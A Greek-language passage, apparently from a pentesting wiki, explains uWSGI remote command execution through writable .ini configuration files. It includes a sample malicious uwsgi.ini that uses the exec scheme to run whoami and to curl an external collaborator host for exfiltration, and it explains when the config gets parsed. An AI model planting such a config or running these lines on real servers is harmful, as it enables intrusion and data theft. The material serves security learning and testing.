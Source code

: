 ![https://twitter.com/ptswarm/status/1555184661751648256/photo/1](<../../.gitbook/assets/image (1047).png>)

## **uWSGI RCE**

Για μια λεπτομερή εξερεύνηση αυτής της ευπάθειας ελέγξτε την αρχική έρευνα: [uWSGI RCE Exploitation](https://blog.doyensec.com/2023/02/28/new-vector-for-dirty-arbitrary-file-write-2-rce.html).

Οι ευπάθειες Remote Command Execution (RCE) μπορούν να εκμεταλλευτούν σε διακομιστές uWSGI αν κάποιος έχει τη δυνατότητα να τροποποιήσει το αρχείο ρύθμισης `.ini`. Τα αρχεία ρύθμισης uWSGI εκμεταλλεύονται μια συγκεκριμένη σύνταξη για να ενσωματώσουν "μαγικές" μεταβλητές, placeholders και τελεστές. Ιδιαίτερα, ο τελεστής '@', που χρησιμοποιείται ως `@(filename)`, έχει σχεδιαστεί για να περιλαμβάνει το περιεχόμενο ενός αρχείου. Μεταξύ των διαφόρων υποστηριζόμενων σχημάτων στο uWSGI, το σχήμα "exec" είναι ιδιαίτερα ισχυρό, επιτρέποντας την ανάγνωση δεδομένων από την τυπική έξοδο μιας διαδικασίας. Αυτή η δυνατότητα μπορεί να χειραγωγηθεί για κακόβουλους σκοπούς όπως Remote Command Execution ή Arbitrary File Write/Read όταν ένα αρχείο ρύθμισης `.ini` επεξεργάζεται.

Σκεφτείτε το παρακάτω παράδειγμα ενός κακόβουλου αρχείου `uwsgi.ini`, που παρουσιάζει διάφορα σχήματα:
```ini
[uwsgi]
; read from a symbol
foo = @(sym://uwsgi_funny_function)
; read from binary appended data
bar = @(data://[REDACTED])
; read from http
test = @(http://[REDACTED])
; read from a file descriptor
content = @(fd://[REDACTED])
; read from a process stdout
body = @(exec://whoami)
; curl to exfil via collaborator
extra = @(exec://curl http://collaborator-unique-host.oastify.com)
; call a function returning a char *
characters = @(call://uwsgi_func)
```
Η εκτέλεση του payload συμβαίνει κατά τη διάρκεια της ανάλυσης του αρχείου ρυθμίσεων. Για να ενεργοποιηθεί και να αναλυθεί η ρύθμιση, η διαδικασία uWSGI πρέπει είτε να επανεκκινηθεί (πιθανώς μετά από μια κατάρρευση ή λόγω επίθεσης Άρνησης Υπηρεσίας) είτε το αρχείο πρέπει να ρυθμιστεί για αυτόματη επαναφόρτωση. Η δυνατότητα αυτόματης επαναφόρτωσης, αν είναι ενεργοποιημένη, επαναφορτώνει το αρχείο σε καθορισμένα διαστήματα μόλις ανιχνεύσει αλλαγές.
